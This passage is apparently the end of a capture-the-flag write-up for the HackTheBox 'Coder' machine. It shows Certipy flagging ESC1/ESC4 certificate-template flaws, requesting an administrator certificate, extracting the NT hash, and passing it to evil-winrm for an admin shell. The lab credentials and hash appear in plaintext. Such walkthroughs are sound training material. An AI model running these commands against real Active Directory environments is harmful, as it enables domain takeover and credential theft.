        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CODER.HTB\Erron Black
          Object Control Permissions
            Owner                           : CODER.HTB\Erron Black
            Full Control Principals         : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Owner Principals          : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Dacl Principals           : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Property Principals       : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
        [!] Vulnerabilities
          ESC1                              : 'CODER.HTB\\Erron Black' can enroll, enrollee supplies subject and template allows client authentication
          ESC4                              : Template is owned by CODER.HTB\Erron Black
    

ESC1 is what I’ve configured, and ESC4 is because e.black owns the template
(and therefore could abuse it).

#### Exploit ESC1

I’ll use `certipy` to request a certificate and key for administrator:

    
    
    oxdf@hacky$ certipy req -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -ca coder-DC01-CA -template 0xdf-ESC1 -upn administrator@coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'
    

Using `administrator.pfx`, I’ll dump the NTLM hash for administrator:

    
    
    oxdf@hacky$ certipy auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7
    

### WinRM

Regardless of how I get the administrator user’s NTLM, I’ll use it to get a
shell over WinRM:

    
    
    oxdf@hacky$ evil-winrm -i coder.htb -u administrator -H '807726fcf9f188adc26eeafd7dc16bb7'
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And grab `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    aeecabd9************************
    

